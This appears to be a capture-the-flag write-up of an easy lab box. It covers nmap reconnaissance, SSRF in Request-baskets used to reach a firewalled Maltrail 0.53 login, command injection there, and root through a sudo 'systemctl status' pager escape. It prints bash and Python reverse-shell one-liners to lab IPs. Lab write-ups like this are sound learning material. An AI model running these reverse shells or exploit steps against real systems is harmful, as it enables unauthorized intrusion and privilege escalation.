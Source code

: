 ```yaml
---
difficulty: easy
---
```

I am given just an IP address. As standard, I start with an `nmap` scan, to start getting a feel for the server. We use `-sV` and `-sC`, which are scripts that wil find the services and their version running on the server, as well as some other useful information.
```bash
nmap -sC -sV -oN nmap/initial.out 10.10.11.224
```
We get the following output (snippet):
```bash
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http
55555/tcp open     unknown
```
This tells us that there seems to be an HTTP version running on port 80, but its traffic is filtered. Indeed, when we try to access this page by navigating to `http://10.10.11.224:80` in our browser, we cannot get a connection.

Then there's also the unknown service running on 55555. We navigate to `http://10.10.11.224:55555` and find that a service called `Request-baskets 1.2.1` is running there. It seems to be some application which allows a user to generate a link from which HTTP requests are logged.

We look for a possible exploit for this service and find that it is susceptible to [Serverside Request Forgery](https://nvd.nist.gov/vuln/detail/CVE-2023-27163). The application allows users to configure an address that all requests into the buckets are forwarded to. It then also allows the forwarding of that address' response back to the requester. The crucial point is that the forwarded request will be made from the target machine, meaning we can send the request to a webservice on the same machine and bypass any firewall that filters incoming traffic. This firewall will not block requests coming from the same machine ofcourse. So, we can use this bucket as a proxy for communicating with another webservice on the machine. Of course, we remember the filtered 80 port with HTTP on it, which we can probably now access.

So we generate a bucket and change the settings such that requests are forwarded to `http://localhost:80` and responses are forwarded back to us. We then send a basic GET request to the bucket and indeed find that we get the `html` file from port 80. Nice!

The page we see is very barebones, but we can see that this port has a service running called `Maltrail 0.53`. We search for any known exploits and find that the service is susceptible to [Command Injection](https://github.com/spookier/Maltrail-v0.53-Exploit). There is a login page over at `/login` and when checking the supplied `username` data, it uses `subprocess.check_output()` to log the username using a shell command. It however does not sanitize this `username` input, so we can inject arbitrary commands into it. 

We download the [python script](https://github.com/spookier/Maltrail-v0.53-Exploit) which uses this exploit. At this point, because I am actively trying to learn, I try to stay away from running convienent scripts and instead figure out how to do things manually. Thus instead of simply running the script I look at its source code to see what is going on under the hood.

I see that the script sends a POST request with a payload containing the to-be-injected command to the `/login` directory. Of course, this script assumes that we have direct acccess to the Maltrail service at port 80, but we do not, so we would have to send the request to the bucket proxy.

The script used a pretty involved string - even encoded into base64 - as a request to the webservice, most of which I did not understand. Thus I wanted to craft my own POST request. I had quite some trouble getting any code execution this way. Mostly because of 2 reasons:
1. I am not familiar with the syntax of injections like these. So I was unsure how exactly to format this string and the script had no explanation for it.
2. I did not get the standard out as the response to the GET request. It always just responded with "Login Failed". So while I knew from the exploit that code execution was happening/possible, I had no idea what the output of any of my commands were.

These two things combined made it quite difficult to craft a working POST request of my own and I was not able to get code execution going. In the end, I decided to use the script after all. At some point I hope to learn how and why the script had the specific command syntax with the base64 encoding, but that was not today.

First, I got an `nc` listener going on my machine
```bash
nc -lnvp 1337
```
Then I tried the reverse shell command I most often use as the `payload`:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1337 0>&1'
```
But that did not seem to execute correctly on the server. However, Maltrain is mostly built using Python, so I knew the server must have python installed. I found a reverse shell command using python:
```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
Using this as the `payload` we finally get a reverse shell going! Using `id` we find that we are running the shell as a user called `puma`. In their home directory, we find the `user.txt` flag and as such we complete the first part of the box.

Now onto the root flag. This flag is (always) in a file `/root/root.txt` which is owned and only readable by the root user. Thus now we need to find a way to escalate our prvivileges to root.  I use the following command to see what `sudo` privileges this user has:
```bash
sudo -l
```
We find the following output:
```
(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
This means that this user can execture the `systemctl status trail.service` command as root, without supplying a password. This is a command that retrieves the status of the `trail.service` service, which turns out to be the service associated with Maltrail. Since this configuration would never occur on a normalm machine, I assume this is indeed the right direction to keep looking. 

We search for some known exploits for `systemctl status`. While not explicitely an exploit perse, we find that the result of this command is opened in a pager, like `less`. The crucial point is that from that pager, we can actually spawn another shell, using `!sh`. However, since the pager run as root, this spawned shell will also run as root.

Being the root user now, we can `cat` out the contents of the `/root/root.txt` flag and we have officially hacked this box!
